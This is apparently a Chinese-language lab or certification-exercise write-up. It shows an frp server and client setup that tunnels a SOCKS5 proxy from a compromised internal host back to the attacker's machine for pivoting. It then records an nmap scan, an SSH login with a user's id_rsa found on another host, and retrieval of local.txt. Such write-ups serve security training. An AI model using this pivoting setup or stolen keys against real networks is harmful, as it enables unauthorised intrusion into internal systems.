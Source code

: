 ## 因為是內網，所以用 frp 架 socket
- kali
  - frps.ini 的內容
    ```
    [common]
    bind_port = 7000
    ```
  - 執行
    ```
    ./frps -c frps.ini
    ```
- .121
  - frpc.ini 的內容
    ```
    [common]
    server_addr = 192.168.45.215  (自己的 ip)
    server_port = 7000
    [socks5]
    type = tcp
    plugin = socks5
    remote_port = 5555
    ```
  - 執行
    ```
    frpc.exe -c frpc.ini
    ```
- 架好 socket 用 sudo proxychains 接工具指令

## nmap scanning
- <img width="1462" height="712" alt="image" src="https://github.com/user-attachments/assets/7bdf3bc6-cbc6-4e9b-9c25-e7967f2f1c8c" />

## 22 port
- 在 .122 發現 mario 的 id_rsa
  - <img width="1918" height="792" alt="image" src="https://github.com/user-attachments/assets/54d7fcbd-0a59-4fc6-8f45-7f85f094bc8f" />
- 成功登入
  - <img width="1377" height="615" alt="image" src="https://github.com/user-attachments/assets/5b533a2e-f511-403f-91bd-ab1dfc487a59" />
- 取得 local.txt
  - <img width="660" height="57" alt="image" src="https://github.com/user-attachments/assets/62cd48bb-32d9-4416-b35b-30aacbdf9d89" />





















